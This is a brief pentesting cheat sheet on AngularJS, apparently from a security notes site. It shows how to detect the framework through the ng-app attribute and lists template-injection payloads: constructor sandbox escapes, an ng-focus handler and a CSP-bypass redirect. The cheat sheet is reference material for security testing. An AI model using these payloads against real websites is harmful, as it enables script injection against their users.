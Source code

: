 ```yaml
---
title: Angular Pentesting
desc: 
tags: [Angular, JavaScript, JS, SSTI, Template, Web]
alts: []
render_with_liquid: false
---
```


## HTML Attributes

If a website uses AngularJS framework, the nodes have a “ng-apps” attribute. So you can check it in a HTML source code. 

```html
<div ng-apps>
```

<br />

## Server-Side Template Injection (SSTI)

```
{{$on.constructor('alert("test")')()}}
{{constructor.constructor('alert("test")')()}}
<input ng-focus=$event.view.alert('test')>

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```